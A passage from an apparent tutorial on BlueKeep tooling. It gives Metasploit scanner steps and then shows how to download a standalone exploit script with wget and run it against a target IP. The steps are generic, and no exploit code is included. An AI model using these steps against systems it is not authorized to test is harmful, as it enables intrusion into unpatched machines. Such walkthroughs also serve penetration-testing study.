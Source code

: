    - **Explanation:** 
     - Lists the configuration options for the scanner.

4. **Set Auxiliary Options:**
   - **Description:** Configure the auxiliary module options.
   - **Command:**
     ```bash
     set RHOSTS <target_ip>
     ```
   - **Example:**
     ```bash
     set RHOSTS 192.168.1.100
     ```

   - **Explanation:** 
     - Sets the target IP address for scanning.

5. **Run the Scanner:**
   - **Description:** Execute the BlueKeep scanner.
   - **Command:**
     ```bash
     run
     ```
   - **Example:**
     ```bash
     run
     ```

   - **Explanation:** 
     - Runs the configured scan against the target.

#### **Using Standalone Exploits**

For standalone BlueKeep exploits, you might find various public tools or scripts. These are generally used in a similar manner:

1. **Download the Exploit:**
   - **Description:** Obtain the BlueKeep exploit script.
   - **Command:**
     ```bash
     wget https://example.com/bluekeep_exploit.py
     ```
   - **Example:**
     ```bash
     wget https://github.com/yourrepo/bluekeep_exploit.py
     ```

   - **Explanation:** 
     - Downloads the exploit script from a source repository.

2. **Run the Exploit Script:**
   - **Description:** Execute the BlueKeep exploit script.
   - **Command:**
     ```bash
     python bluekeep_exploit.py -t <target_ip>
     ```
   - **Example:**
     ```bash
     python bluekeep_exploit.py -t 192.168.1.100
     ```
